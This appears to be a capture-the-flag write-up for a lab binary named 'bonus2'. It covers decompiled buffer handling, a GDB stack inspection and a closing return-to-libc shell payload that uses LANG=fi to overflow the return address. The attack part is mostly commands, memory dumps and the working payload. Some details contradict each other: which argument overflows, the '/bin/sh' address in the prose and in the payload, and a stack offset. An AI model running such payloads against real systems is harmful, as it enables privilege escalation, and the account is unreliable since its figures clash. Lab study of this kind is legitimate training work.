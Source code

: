 <h1 align="center"> BONUS 2</h1>

## 🔍 Analysis of Decompiled [bonus2](./bonus2.c)

The binary takes **two arguments** (`argv[1]` and `argv[2]`), copies them into stack buffers, and then prints a greeting string depending on the `LANG` environment variable.

- `argv[1]` → copied into `buf1[40]`
- `argv[2]` → copied into `buf2[36]` (but only 32 bytes are written with `strncpy`)

It also sets a global variable `language`:
- `LANG=fi` → Finnish mode  
- `LANG=nl` → Dutch mode  
- default → English  

At the end, `greetuser()` is called with the contents of `buf1`.
That means if we pass in more than 32 characters for argv[2], the overflow will spill into the saved EBP / saved return address, allowing us to control execution.

---

### Vulnerability
The interesting part is in how the buffers are handled:

```c
char buf1[40];
char buf2[36];

strncpy(buf1, argv[1], 40);
strncpy(buf2, argv[2], 32);
```
- buf2 is 36 bytes, but strncpy writes only up to 32 bytes.
- This leaves 4 bytes of slack at the end of buf2 on the stack.

## 💥 Exploit
### GDB verification
```
(gdb) break greetuser
Breakpoint 1 at 0x804848a
(gdb) run AAAAAAAAAAAAAAA BBBBBBBBBB
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAA BBBBBBBBBB

Breakpoint 1, 0x0804848a in greetuser ()
(gdb) info frame
Stack level 0, frame at 0xbffff670:
 eip = 0x804848a in greetuser; saved eip 0x8048630
 called by frame at 0xbffff730
 Arglist at 0xbffff668, args: 
 Locals at 0xbffff668, Previous frame's sp is 0xbffff670
 Saved registers:
  ebp at 0xbffff668, eip at 0xbffff66c
(gdb) x/200bx $ebp-0x80
0xbffff5e8:	0x18	0xf9	0xff	0xb7	0x16	0x9e	0xea	0xb7
0xbffff5f0:	0xf4	0xef	0xff	0xb7	0x63	0xc3	0xfe	0xb7
0xbffff5f8:	0xd0	0xfa	0xff	0xb7	0x48	0xcb	0xfd	0xb7
0xbffff600:	0x01	0x00	0x00	0x00	0x01	0x00	0x00	0x00
0xbffff608:	0x00	0x00	0x00	0x00	0x8d	0xd5	0xe5	0xb7
0xbffff610:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff618:	0x01	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff620:	0x3c	0x82	0x04	0x08	0x5c	0x99	0x04	0x08
0xbffff628:	0x4c	0x41	0x00	0x00	0x81	0xe2	0xe5	0xb7
0xbffff630:	0x33	0xff	0xff	0xbf	0xf8	0x38	0xe3	0xb7
0xbffff638:	0x02	0x00	0x00	0x00	0x96	0x39	0xec	0xb7
0xbffff640:	0x78	0xf6	0xff	0xbf	0xc0	0xf6	0xff	0xbf
0xbffff648:	0x00	0x00	0x00	0x00	0x0c	0xf7	0xff	0xbf
0xbffff650:	0x28	0xf7	0xff	0xbf	0xb0	0x26	0xff	0xb7
0xbffff658:	0x33	0xff	0xff	0xbf	0x80	0xd7	0xf5	0xb7
0xbffff660:	0x36	0xff	0xff	0xbf	0x18	0xf9	0xff	0xb7
0xbffff668:	0x28	0xf7	0xff	0xbf	0x30	0x86	0x04	0x08
0xbffff670:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xbffff678:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x00
0xbffff680:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff688:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff690:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff698:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xbffff6a0:	0x42	0x42	0x00	0x00	0x00	0x00	0x00	0x00
0xbffff6a8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
---
(gdb) x/s 0xbffff670
0xbffff670:	 'A' <repeats 15 times>
(gdb) x/xw $ebp+8   
0xbffff660:	0x41414141
(gdb) x/xw $ebp+48
0xbffff688:	0x42424242
(gdb) break *greetuser+155
Breakpoint 4 at 0x804851f
(gdb) continue
Continuing.

Breakpoint 4, 0x0804851f in greetuser ()
(gdb) x/s $ebp-0x48  
0xbffff610:	 "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 ", 'A' <repeats 15 times>

```
- $ebp - 0x48 → start of greeting_prefix
- $ebp - 0x44 → start of greeting_msg
- $ebp+0x8 → first argument
- $ebp+0xc → second argument

This confirms:
- greeting_prefix lives at $ebp-0x48 (4 bytes)
- greeting_msg lives at $ebp-0x44 (64 bytes)
- strcat allows "buf1" to overflow past both, reaching saved EBP and return address.
From dynamic analysis with gdb:
- system()  -> 0xb7e6b060
- "/bin/sh" -> 0xb7e6b0fa

We craft argv[2] as:
"A"*18 + system_addr + "BBBB" + binsh_addr

## Payload
```sh
export LANG=fi
./bonus2 $(python -c 'print "A"*40') $(python -c 'print "A"*18 + "\x60\xb0\xe6\xb7"+ "BBBB"+ "\x58\xcc\xf8\xb7"')
```


